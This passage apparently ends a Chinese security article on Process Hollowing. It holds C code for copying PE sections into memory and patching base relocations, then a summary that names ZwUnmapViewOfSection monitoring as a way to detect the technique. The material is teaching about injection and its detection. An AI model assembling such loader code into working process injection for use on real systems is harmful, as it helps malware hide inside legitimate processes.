 ```js
        memcpy((LPVOID)((DWORD)buffer + section_header[i].VirtualAddress), (LPVOID)((DWORD)filebuffer + section_header[i].PointerToRawData), section_header[i].SizeOfRawData);
    };

    return buffer;

}
DWORD PatchRe(DWORD newImageBase, PBYTE ptr) {
    PIMAGE_DOS_HEADER Dos = (PIMAGE_DOS_HEADER)ptr;
    PIMAGE_NT_HEADERS Nt = (PIMAGE_NT_HEADERS)(ptr + Dos->e_lfanew);
    PIMAGE_FILE_HEADER File = (PIMAGE_FILE_HEADER)(ptr + Dos->e_lfanew + 4);
    PIMAGE_OPTIONAL_HEADER Option = (PIMAGE_OPTIONAL_HEADER)(ptr + Dos->e_lfanew + 24);
    PIMAGE_SECTION_HEADER Sec = IMAGE_FIRST_SECTION(Nt);
    PIMAGE_DATA_DIRECTORY Data = (PIMAGE_DATA_DIRECTORY)((PBYTE)Sec - 128);
    PIMAGE_BASE_RELOCATION Relocation = (PIMAGE_BASE_RELOCATION)(ptr + rtf((char*)ptr, Data[5].VirtualAddress));
    DWORD nImageBase = newImageBase - Option->ImageBase;
    Option->ImageBase = newImageBase;

    for (; Relocation->VirtualAddress && Relocation->SizeOfBlock;)
    {

        DWORD RecCount = (Relocation->SizeOfBlock - 8) / 2;
        PWORD RecAdd = (PWORD)((PBYTE)Relocation + 8);
        for (DWORD j = 0; j < RecCount; j++)
        {
            if (RecAdd[j] >> 12 == 3)
            {

                DWORD RecAdd2 = RecAdd[j] & 0x0fff;//0x0fff=0x0000 1111 1111 1111
                DWORD RecAdd3 = rtf((char*)ptr, RecAdd2 + Relocation->VirtualAddress);
                PDWORD RecAdd4 = (PDWORD)(RecAdd3 + ptr);
                *RecAdd4 = *RecAdd4 + nImageBase;
            }
            continue;
        }
        Relocation = (PIMAGE_BASE_RELOCATION)((char*)Relocation + Relocation->SizeOfBlock);
    }

    return 1;
}

```

0x5 总结
======

Process Hollowing是进程注入技术的一种，主要是对映射到进程中的程序数据做了替换，相当于狸猫换太子，可以通过监控**ZwUnmapViewOfSection**函数的调用来检测Process Hollowing。

最后祝各位审核，师傅春节快乐。
